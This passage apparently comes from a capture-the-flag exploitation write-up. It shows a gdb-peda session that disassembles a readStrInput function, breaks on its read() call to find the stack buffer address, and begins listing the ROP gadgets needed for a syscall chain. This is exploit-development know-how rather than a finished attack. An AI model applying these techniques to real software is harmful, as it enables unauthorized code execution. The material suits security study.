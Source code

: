 ```
   0x0000000000400ac8 <+96>:	mov    rdi,rax
   0x0000000000400acb <+99>:	call   0x400890 <fflush@plt>
   0x0000000000400ad0 <+104>:	mov    eax,DWORD PTR [rbp-0x98]
   0x0000000000400ad6 <+110>:	movsxd rdx,eax
   0x0000000000400ad9 <+113>:	lea    rcx,[rbp-0x90]
   0x0000000000400ae0 <+120>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400ae6 <+126>:	mov    rsi,rcx
   0x0000000000400ae9 <+129>:	mov    edi,eax
   0x0000000000400aeb <+131>:	call   0x400870 <read@plt>
   0x0000000000400af0 <+136>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400af4 <+140>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000400af8 <+144>:	mov    eax,DWORD PTR [rbp-0x94]
   0x0000000000400afe <+150>:	mov    esi,0x400ebb
   0x0000000000400b03 <+155>:	mov    edi,eax
   0x0000000000400b05 <+157>:	mov    eax,0x0
   0x0000000000400b0a <+162>:	call   0x400860 <dprintf@plt>
   0x0000000000400b0f <+167>:	nop
   0x0000000000400b10 <+168>:	leave  
   0x0000000000400b11 <+169>:	ret    
End of assembler dump.
gdb-peda$ b *readStrInput+131
Breakpoint 1 at 0x400aeb
gdb-peda$ i r rsi
rsi            0x7fffffffe1e0	0x7fffffffe1e0
gdb-peda$ x/16x $rsi
0x7fffffffe1e0:	0x0000000000000000	0x0000000000000000
0x7fffffffe1f0:	0x0000000000000000	0x0000000000000000
0x7fffffffe200:	0x0000000000000000	0x0000000000000000
0x7fffffffe210:	0x0000000000000000	0x0000000000000000
0x7fffffffe220:	0x0000000000000000	0x0000000000000000
0x7fffffffe230:	0x0000000000000000	0x0000000000000000
0x7fffffffe240:	0x0000000000000000	0x0000000000000000
0x7fffffffe250:	0x0000000000000000	0x0000000000000000
gdb-peda$ n
0x0000000000400af0 in readStrInput ()
gdb-peda$ x/16x $rsi
0x7fffffffe1e0:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
0x7fffffffe1e8:	0x41	0x41	0x41	0x41	0x41	0x41	0x41	0x41
```

Therefore, our stack address is `0x7fffffffe1e0`


## Find gadgets

We need five gadgets:
- pop RAX
- pop RDI
- pop RSI
- pop RDX
- syscall
